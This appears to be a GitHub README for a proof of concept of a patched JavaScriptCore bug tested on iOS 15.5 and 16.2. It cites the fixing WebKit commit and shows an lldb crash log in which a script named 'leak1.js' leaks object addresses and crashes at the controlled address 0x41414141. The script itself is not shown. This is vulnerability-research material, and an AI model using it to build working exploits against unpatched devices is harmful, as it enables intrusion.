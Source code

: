 # PropConditionBug
# Not my bug nor found by me found here : https://github.com/WebKit/WebKit/commit/7225cf04ea3d003ba0698f620a447be04902fd34
JSC bug tested on iOS 15.5 and iOS 16.2 


Current Output:
bootywarrior@Bootys-MacBook-Air fuzzilli % lldb /System/Library/Frameworks/JavaScriptCore.framework/Versions/A/Helpers/jsc /Users/bootywarrior/Downloads/leak1.js
(lldb) target create "/System/Library/Frameworks/JavaScriptCore.framework/Versions/A/Helpers/jsc"
Current executable set to '/System/Library/Frameworks/JavaScriptCore.framework/Versions/A/Helpers/jsc' (arm64e).
(lldb) settings set -- target.run-args  "/Users/bootywarrior/Downloads/leak1.js"
(lldb) r
Process 67686 launched: '/System/Library/Frameworks/JavaScriptCore.framework/Versions/A/Helpers/jsc' (arm64e)
Object: 0x12d5bbe80 with butterfly 0x70010281e8(base=0x70010281e0) (Structure 0x30000a390:[0xa390/41872, Object, (0/6, 0/0){}, NonArrayWithDouble, Proto:0x10a025468, Leaf]), StructureID: 41872
Object: 0x12d5bbe40 with butterfly 0x70010282c8(base=0x70010282c0) (Structure 0x30000a400:[0xa400/41984, Object, (6/6, 0/0){a0:0, a1:1, a2:2, a3:3, a4:4, a5:5}, NonArrayWithDouble, Proto:0x10a047b68, Leaf]), StructureID: 41984
Process 67686 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x41414141)
    frame #0: 0x00000001a879f734 JavaScriptCore`JSC::JSValue::dump(WTF::PrintStream&) const + 32
JavaScriptCore`JSC::JSValue::dump:
->  0x1a879f734 <+32>: ldr    w8, [x8]
    0x1a879f738 <+36>: and    x8, x8, #0xfffffffe
    0x1a879f73c <+40>: adrp   x9, 253437
    0x1a879f740 <+44>: add    x9, x9, #0x0              ; g_config
Target 0: (jsc) stopped.
(lldb) 

